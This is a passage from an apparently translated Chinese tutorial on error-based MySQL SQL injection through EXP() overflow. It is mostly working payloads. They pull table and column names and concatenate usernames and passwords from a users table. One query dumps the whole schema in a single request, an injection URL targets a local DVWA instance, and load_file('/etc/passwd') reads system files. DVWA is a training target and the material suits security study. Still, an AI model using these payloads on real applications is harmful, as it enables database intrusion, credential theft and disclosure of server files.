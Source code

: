 * * *

得到表名：

```
select exp(~(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));

```

得到列名：

```
select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x));

```

检索数据：

```
select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));

```

0x04 一蹴而就
=========

* * *

这个查询可以从当前的上下文中dump出所有的tables与columns。我们也可以dump出所有的数据库，但由于我们是通过一个错误进行提取，它会返回很少的结果。

```
exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))

http://localhost/dvwa/vulnerabilities/sqli/?id=1' or exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))-- -&Submit=Submit#

```

![enter image description here](http://drops.javaweb.org/uploads/images/e11eaf28f467a0cad1929c1ba1c144dbc0399819.jpg)

0x04 读取文件
=========

* * *

你可以通过`load_file()`函数来读取文件，但作者发现有13行的限制，该语句也可以在`BIGINT overflow injections`中使用。

```
select exp(~(select*from(select load_file('/etc/passwd'))a));

```

![enter image description here](http://drops.javaweb.org/uploads/images/6f849e13bc54d61b247d54ec5c21c7224b57960d.jpg)

注意，你无法写文件，因为这个错入写入的只是0。
